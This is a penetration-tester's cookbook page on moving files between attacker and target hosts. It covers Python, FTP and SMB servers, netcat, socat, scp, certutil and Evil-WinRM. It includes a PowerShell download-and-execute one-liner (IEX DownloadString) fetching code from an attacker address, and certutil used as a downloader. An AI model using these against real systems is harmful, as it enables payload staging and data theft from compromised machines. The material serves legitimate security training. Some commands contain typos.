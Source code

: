 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Local web server
```csharp
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.16.0.10 443
python3 -m http.server --bind 172.16.0.10 --directory tools/ 443
```

See [this link](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html) for creating a `http.server` that accepts `PUT` requests. Use with something like:

```
curl -X PUT -T file-to-upload http://<IP>:<port>/
```


## Local FTP server
```csharp
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.16.6.6 -p4433
python3 -m pyftpdlib --interface=172.16.6.6 -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

## Local SMB server
```csharp
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```csharp
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

## Socat
```csharp
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

## Secure Copy
Assumes ssh access.

```csharp
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

## PowerShell
```csharp
// Download and execute.
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7:8000/resource')

// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/resource', 'resource')
```

## Windows certutil.exe
```csharp
// Windows wget equivalent.
certutil -urlcache -f http://10.x.x.x:port/file.ext outfile.exe
```

## Evil-WinRM
```csharp
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell, conver them to `base64` and copy/paste between windows.

